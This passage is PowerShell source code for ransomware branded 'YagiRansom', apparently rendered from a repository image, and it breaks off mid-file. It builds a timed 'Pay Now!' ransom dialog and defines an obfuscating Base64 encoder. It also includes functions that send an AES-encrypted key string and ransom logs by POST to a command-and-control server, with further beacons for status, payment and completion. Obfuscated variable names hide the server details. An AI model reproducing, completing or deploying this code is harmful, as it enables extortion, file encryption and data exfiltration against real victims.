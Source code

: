 ```powershell
$okButton.Location = New-Object System.Drawing.Point(750,500)
$okButton.Size = New-Object System.Drawing.Size(110,35)
$okbutton.ForeColor = "Black"
$okbutton.BackColor = "White"
$okbutton.FlatStyle = [System.Windows.Forms.FlatStyle]::Flat
$okButton.Text = 'Pay Now!'
$okbutton.Visible = $false
$okbutton.Enabled = $true
$okButton.DialogResult = [System.Windows.Forms.DialogResult]::OK
$okButton.add_Click({ 
[System.Windows.Forms.MessageBox]::Show($this.ActiveForm, 'Your payment order has been successfully registered!', 'YagiRansom Payment Processing System',
[Windows.Forms.MessageBoxButtons]::"OK", [Windows.Forms.MessageBoxIcon]::"Warning")})
$form.AcceptButton = $okButton
$form.Controls.Add($okButton)
$form.Activate() 2>&1> $null
$form.Focus() 2>&1> $null
$btn=New-Object System.Windows.Forms.Label
$btn.Location = New-Object System.Drawing.Point(50,500)
$btn.Width = 500
$form.Controls.Add($btn)
$btn.ForeColor = "Red"
$startTime = [DateTime]::Now
$count = 10.6
$7VEqr=New-Object System.Windows.Forms.Timer
$7VEqr.add_Tick({$elapsedSeconds = ([DateTime]::Now - $startTime).TotalSeconds ; $remainingSeconds = $count - $elapsedSeconds
if ($remainingSeconds -like "-0.1*"){ $7VEqr.Stop() ; $okbutton.Visible = $true ; $btn.Text = "0 Seconds remaining.." }
$btn.Text = [String]::Format("{0} Seconds remaining..", [math]::round($remainingSeconds))})
$7VEqr.Start()
$btntest = $form.ShowDialog()
if ($btntest -like "OK"){ $Global:PayNow = "True" }}
function R64Encoder { 
   if ($args[0] -eq "-t") { $VaFQ = [Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes($args[1])) }
   if ($args[0] -eq "-f") { $VaFQ = [Convert]::ToBase64String([IO.File]::ReadAllBytes($args[1])) }
   $VaFQ = $VaFQ.Split("=")[0] ; $VaFQ = $VaFQ.Replace("C", "-") ; $VaFQ = $VaFQ.Replace("E", "_")
   $8bKW = $VaFQ.ToCharArray() ; [array]::Reverse($8bKW) ; $R64Base = -join $8bKW ; return $R64Base }
function GetStatus {
   Try { Invoke-WebRequest -useb "$7CiB`:$UFX/status" -Method GET 
      Write-Host "[i] C2 Server is up!" -ForegroundColor Green }
   Catch { Write-Host "[!] C2 Server is down!" -ForegroundColor Red }}
function SendResults {
   $cvf = Invoke-AESEncryption -Key $Uz19o -Text $WiETm ; $cVl = R64Encoder -t $cvf
   $2YngY = "> $cVl > $OgE > $zVSza > $7VEq"
   $RansomLogs = Get-Content "$Directory$slash$I26" | Select-String "[!]" | Select-String "YagiRansom!" -NotMatch
   $XoX = R64Encoder -t $2YngY ; $B64Logs = R64Encoder -t $RansomLogs
   Invoke-WebRequest -useb "$7CiB`:$UFX/data" -Method POST -Body $XoX 2>&1> $null
   Invoke-WebRequest -useb "$7CiB`:$UFX/logs" -Method POST -Body $B64Logs 2>&1> $null }
function SendClose {
   Invoke-WebRequest -useb "$7CiB`:$UFX/close" -Method GET 2>&1> $null }
function SendPay {
   Invoke-WebRequest -useb "$7CiB`:$UFX/pay" -Method GET 2>&1> $null }
function SendOK {
   Invoke-WebRequest -useb "$7CiB`:$UFX/done" -Method GET 2>&1> $null }
function CreateReadme {
```